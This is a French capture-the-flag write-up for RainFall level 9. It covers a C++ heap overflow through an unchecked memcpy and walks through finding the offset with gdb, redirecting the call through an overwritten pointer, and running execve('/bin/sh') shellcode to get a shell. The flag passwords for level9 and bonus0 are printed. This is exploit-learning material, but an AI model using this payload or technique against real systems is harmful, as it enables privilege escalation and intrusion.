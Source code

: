 # Level 9

pass : `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a`

## Source :
```cpp
#include <string.h>

class N {  // ebp+0x8
public :
	char annotation[100];  // ebp+0x8 + 0x4 | size : 0x64 (0x68 - 0x4)
	int value;  // ebp+0x8 + 0x68

	N(int val) : value(val) {}  // 0x080486f6
	void	setAnnotation(char *str) {  // 0x0804870e
		int len = strlen(str);
		memcpy(annotation, str, len);
	}
	int		operator+(N const &rhs) {  // 0x0804873a
		return value + rhs.value;
	}
	int		operator-(N const &rhs) {  // 0x0804874e
		return value - rhs.value;
	}
};

int		main(int ac, char **av) {  // 0x080485f4
	if (ac <= 1)
		_exit(1);
	N *a = new N(5);  // esp+0x1c
	N *b = new N(6);  // esp+0x18

	N *c = a;  // esp+0x14
	N *d = b;  // esp+0x10

	c->setAnnotation(av[1]);
	return (*d + *c);
}
```

## Recherche :

Pour faire l'exploit, on va passer par le seul point d'entrée qu'on a, c'est à dire `av[1]`.
Aussi on voit dans l'assembleur que pour appeler `*d + *c`, il fait :
```asm
mov    eax,DWORD PTR [esp+0x10]
mov    eax,DWORD PTR [eax]
mov    edx,DWORD PTR [eax]
```

On va donc essayer d'écrire dans `EAX`.

Avec un `pattern create 130` et un `pattern search`, on s'apperçoit que `EAX` est écrit à partir de 108 caractères.

```sh
gdb-peda$ pattern search
Registers contain pattern buffer:
EAX+0 found at offset: 108
Registers point to pattern buffer:
[ECX] --> offset 12 - size ~118
[EDX] --> offset 0 - size ~130
[EBX] --> offset 108 - size ~22
Pattern buffer found at:
0x080492b6 : offset 27003 - size    4 (/home/kali/rainfall/level9)
0x0804ebb4 : offset    0 - size  130 ([heap])
0xb7c0c0c5 : offset 33208 - size    4 (/usr/lib/i386-linux-gnu/libm-2.30.so)
0xbffff448 : offset    0 - size  130 ($sp + 0x288 [162 dwords])
References to pattern buffer found at:
0xbffff188 : 0x0804ebb4 ($sp + -0x38 [-14 dwords])
0xbffff1a0 : 0x0804ebb4 ($sp + -0x20 [-8 dwords])
0xbffff190 : 0xbffff448 ($sp + -0x30 [-12 dwords])
0xbffff1a4 : 0xbffff448 ($sp + -0x1c [-7 dwords])
0xbffff1c4 : 0xbffff448 ($sp + 0x4 [1 dwords])
0xbffff288 : 0xbffff448 ($sp + 0xc8 [50 dwords])
```

Aussi on va vouloir lancer un shellcode, qu'on va pouvoir remplir dans `c->annotation`.
Pour retrouver l'adresse de `c->annotation`, on peut faire une breakpoint dans `memcpy` et voir les arguments qu'on a :

```gdb
(gdb) b *0x08048510
Breakpoint 1 at 0x8048510
(gdb) r "AAAA"
Starting program: /home/user/level9/level9 "AAAA"

Breakpoint 1, 0x08048510 in memcpy@plt ()
(gdb) x/4x $esp
0xbffff6dc:     0x08048738      0x0804a00c      0xbffff905      0x00000004
```

`c->annotation` est donc `0x0804a00c`, c'est à dire notre 1<sup>er</sup> argument.

```
(gdb) r $(python -c 'print "A"*108+"\x0c\xa0\x04\x08"')
Starting program: /home/user/level9/level9 $(perl -e 'print "A"x(108)."\x0c\xa0\x04\x08"')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Bien, on a fait notre saut, mais le petit problème, c'est que comme il fait deux fois ` mov    eax,DWORD PTR [eax]`, on est allé à l'adresse `0x41414141` ("AAAA").

On corrige ça en changeant le début par l'adresse suivante :
`\x10\xa0\x04\x08` et en diminuant de 4 la longeur.

Et maintenant on va chercher un shellcode sur internet, comme celui-ci qui fait 28 bytes&nbsp;:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

```gdb
(gdb) r $(python -c 'print "\x10\xa0\x04\x08"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"\x90"*(108-4-28)+"\x0c\xa0\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level9/level9 $(perl -e 'print "\x10\xa0\x04\x08"."\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"."\x90"x(108-4-28)."\x0c\xa0\x04\x08"')
process 7262 is executing new program: /bin/dash
$
```

Super !! Un prompt s'est affiché ! Il reste plus qu'à lancer ça en dehors de gdb :)

## Exploit :

```shell
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"\x90"*(108-4-28)+"\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cd ../bonus0
$ cat .pass 
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
